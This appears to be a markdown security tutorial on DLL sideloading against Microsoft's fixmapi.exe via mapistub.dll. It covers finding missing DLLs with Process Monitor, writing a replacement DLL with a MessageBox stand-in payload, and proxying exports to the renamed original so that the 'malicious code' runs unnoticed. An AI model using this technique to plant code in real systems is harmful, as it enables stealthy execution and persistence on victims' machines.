






## DLL Sideloading

DLL Sideloading is a technique that exploits a vulnerability in the application's DLL loading order. Simply put, an application should check for required DLLs in more important locations first (ex. `C:\Windows\System32\`), but instead, it checks the current directory containing the application first. This allows creating a malicious version of a DLL and placing it in the current directory, so the DLL will be loaded and executed.

### Searching for DLL Sideloading in fixmapi.exe

`fixmapi.exe` is a diagnostic tool provided by Microsoft to troubleshoot issues related to Messaging Application Programming Interface (MAPI), which can be found at `C:\Windows\System32\`. Using `Process Monitor` to search for DLL Sideloading in this application. Set up the filter of the application as follows:



After applying the filter, run the application and view the results:



In case of DLL Sideloading vulnerability, the application will not find the DLL and the result will be `NAME NOT FOUND`, so we just need to apply another filter for `Result` as follows:



After applying, we get the result of files not found as follows:



We can see that the application searched for `mapistub.dll` in the location `C:\User\vuong\Desktop\Test Sideloading\` but did not find it => `fixmapi.exe` contains Sideloading with `mapistub.dll`.

### Creating DLL to Exploit Sideloading

Create simple `MessageBox` code when the DLL is loaded:

```c
#include <iostream>
#include <thread>


BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        MessageBoxA(NULL, "Hello", "Hello", MB_OK);
        break;
    case DLL_THREAD_ATTACH:
        
        break;
    case DLL_THREAD_DETACH:
        
        break;
    case DLL_PROCESS_DETACH:
        
        break;
    }
    return TRUE;
}
```

Rename the dll to `mapistub.dll` and place it in the same directory as `fixmapi.exe`, run the file and get the result:



And accompanied by an error:



Debug with x64dbg and search for the DLL loading location, we notice it is searching for the DLL export function `FixMAPI`. Since it cannot find it, it causes an error. Modify the code to fix this error:

```c
extern "C" __declspec(dllexport) void FixMAPI() {
    MessageBoxA(NULL, "FIXMAPI", "FIXMAPI", MB_OK);
}
```

Instead of adding code to the `DLL_PROCESS_ATTACH` section, we should build an export function. This can avoid some errors, notably errors related to dependent libraries. In cases where libraries loaded later need the original DLL library, however, our original DLL must execute the function in `DLL_PROCESS_ATTACH`, leading to it not being loaded yet and causing an error.

### DLL Proxying

To increase the authenticity of Sideloading, it is important to ensure that the exe executes what it is supposed to do. Therefore, we need to ensure that the DLL carries the real functions of the original DLL. There is a video that talked about this, using several efficient tools to create a DLL that contains both malicious code and the functions like the original DLL: https://www.youtube.com/watch?v=P7lLDM6cHpc

Below will explain how to custom code to do this.

For some export functions used, we can use proxying by renaming the original DLL to a different name, placing it in the same directory as the sideloading dll, then in the sideloading dll, execute some lines of code with the following format. (Assuming the original dll was renamed to tempdll.dll).

```c
#pragma comment(linker,"/export:FixMAPI=tempdll.FixMAPI,@14")
```

Where `@14` is the ordinal of the export function, which can be found using tools for viewing PE format such as CFF explorer.

For the function that will place the sideloading code, we need to modify it slightly so it can both execute malicious code and call the required function.

```c
extern "C" __declspec(dllexport) PVOID FixMAPI() {
    MessageBoxA(NULL, "FIXMAPI", "FIXMAPI", MB_OK);

    HMODULE hModule = LoadLibraryA("tempdll.dll");

    if (!hModule) {
        return nullptr;
    }

    fnFixMAPI pFixMAPI = (fnFixMAPI)GetProcAddress(hModule, "FixMAPI");
    if (!pFixMAPI) {
		return nullptr;
	}

    return pFixMAPI();
}
```
